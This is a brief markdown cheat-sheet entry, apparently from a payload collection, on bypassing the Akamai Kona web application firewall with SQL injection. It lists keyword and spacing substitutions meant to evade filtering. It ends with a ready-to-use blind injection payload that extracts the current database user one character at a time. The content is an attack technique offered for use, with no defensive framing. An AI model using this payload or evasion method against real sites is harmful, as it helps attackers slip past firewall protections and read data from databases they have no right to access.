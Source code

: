 ## SQLI

**Akamai Kona Bypass**

* `MID` instead of `SUBSTRING`
* `LIKE` instead of `=`
* `/**/` instead of a `space`
* `CURRENT_USER` instead of `CURRENT_USER()`
* ` "` instead of `'`

Final example: 

```sql
444/**/OR/**/MID(CURRENT_USER,1,1)/**/LIKE/**/"p"/**/#
```